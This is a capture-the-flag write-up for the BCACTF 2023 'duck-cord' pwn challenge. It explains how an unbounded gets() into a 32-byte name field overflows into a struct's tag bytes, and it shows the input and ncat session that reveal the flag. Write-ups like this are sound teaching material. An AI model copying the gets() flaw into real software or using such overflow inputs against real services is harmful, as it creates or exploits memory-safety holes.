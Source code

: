 ```yaml
---
title: BCACTF 2023 - duck-cord 
date: Sun Jun 11 12:53:53 PM +04 2023
categories: [Writeup]
tags: [ctf,bcactf2023,pwn]
---
```


## Description

duck-cord | 75  points | By  `Andrew`

The ducks and I have been working on our latest communications app:  `Duck Cord`  It's more duck-focussed than other communication apps these days...

Netcat Links:`nc  challs.bcactf.com 30184`<br>
Static resources: [provided.c](https://storage.googleapis.com/bcactf/duck-cord/provided.c)

## Analysis 

Program is simple. On start it asks for username with max_len 32, then sends random messages and lets us send messages.

The program mentions max length for username but never actually limits the input. `gets(self.name);` (Vuln)

```c
// made this always be > 1, to prevent from acessing the SYSTEM_USER text with #0000
self.tag[3] = '1' + (rand() % 9);
```
So if our tag name is `#0000` we can access SYSTEM_USER text.

What is `self`? &nbsp;&nbsp;&nbsp; `self` is type of `user_t` struct, custom object.
```c
typedef struct {
    char name[MAX_NAME_LEN];
    union {
        uint32_t tag_raw;
        char tag[4];
    };
} user_t;
```

So if we overflow the name array we can write into tags.


## Solution

```powershell
➜ ncat challs.bcactf.com 30184
## Hello! Welcome to Duck Cord
## Duck Cord is a version of discord made just for ducks
What do you want your name to be? (maximum of 32 chars)
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0000  # <- Input: "A"*32 + "0000"
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#0000!
Loading messages...
[ 1:35] Agent Duck#0000: flag{H3LL0_AG3NT_DUCK_ur_m1ssi0n_I5_h4ve_fun_8e9201e}
[ 1:36] Classic Ducky#9120: What a beautiful day today!
```